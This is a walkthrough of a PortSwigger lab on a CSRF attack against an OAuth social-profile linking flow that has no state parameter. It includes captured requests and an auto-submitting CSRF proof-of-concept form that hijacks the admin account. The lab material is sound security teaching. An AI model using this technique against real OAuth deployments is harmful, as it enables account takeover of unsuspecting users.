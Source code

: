## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b27eec88-6295-4475-b757-2150fd794978)

## Solution :

So as per the lab desc, we have these 2 information

- Blog website account: `wiener:peter`
- Social media profile: `peter.wiener:hotdog`
- The admin user will open anything we send from the exploit server and they always have an active session on the blog website.

### Recon 

The login page has an option to login via traditional username:password & also an option to login via social media !

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a639c66d-b2e1-43b0-b2eb-94067b4f73f0)

First login as wiener, we have this option to attach our social media handle.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4f2274ce-7171-4538-93b8-1a1154b4540d)

On clicking **Attach a social profile**, the client application sends a *Authoriation request* to the Oauth identity provider.

```http
GET /auth?client_id=zd0z0mcs05h6xy1izs6qs&redirect_uri=https://0a2600ea040904c4826f158800f4006c.web-security-academy.net/oauth-linking&response_type=code&scope=openid%20profile%20email HTTP/2
Host: oauth-0acb00670438047f820f135d028000c6.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: https://0a2600ea040904c4826f158800f4006c.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
```
Now the Oauth service redirects us to the social media login page & asks us for username and password.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/09eea3bc-0ac7-417f-9806-17092344680a)

The request sent is as follows,

```
POST /interaction/h_HZHJFwu5SNlmERnvvAu/login HTTP/1.1
Host: oauth-0afa007604f736b180a029a002b300ad.oauth-server.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: https://oauth-0afa007604f736b180a029a002b300ad.oauth-server.net
Connection: close
Referer: https://oauth-0afa007604f736b180a029a002b300ad.oauth-server.net/interaction/h_HZHJFwu5SNlmERnvvAu/login
Cookie: _interaction=h_HZHJFwu5SNlmERnvvAu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

username=peter.wiener&password=hotdog
```
Now it asks for our consent to accept the information that will be used.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b0338393-521a-4008-9b4b-ac304ca13104)

The next follow-up *GET* request to **/oauth-linking** contains the `?code=` parameter which contains the **Authorization token**.

```http
GET /oauth-linking?code=eWEB9aYNxO0Ls88fGmWdu1vQEG_JsniFHJ4kvpIRf2f HTTP/1.1
Host: 0a2600ea040904c4826f158800f4006c.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/117.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a2600ea040904c4826f158800f4006c.web-security-academy.net/
Connection: close
Cookie: session=Z5diXRZYGorFvLSQFaLVfzZdRHtnzitH
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
```
Once the flow is over, we have added our social media account & now we can login to our account via social media.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/b5d393c5-c4ef-41a6-ac7a-7eba442d9716)

### Exploitation 

Since the Oauth flow for adding social media to our account **doesn't have any `state=` parameter, we can perform a csrf attack to link somebody else's social media to our account.**

#### Steps -

1. Login as wiener.
2. Click add social media option & intercept the request flow.
3. Intercept the request after entering consent to permissions that were required. A *GET* request to `/oauth-linking?code=<value>` is sent. Drop the particular request so that the code is fresh and not used by wiener.
4. Create a CSRF POC for the request containing the authorization code.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a81007904223666800f2b9b00a500ae.web-security-academy.net/oauth-linking">
      <input type="hidden" name="code" value="n4hzKYNoh4upso6bDZys&#95;fjVFI6zf&#45;MURAjNHLutcrP" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

5. Send the exploit to admin via the exploit server.
6. Now logout and login via **Login with social media** option.

We have now successfullt logged in as **administrator**

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/889d7f6a-3b09-403c-981b-093dd1abb833)

Click on the admin panel and delete the user carlos to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c66f51c2-c321-45dc-9f76-c8f0d60ebe72)
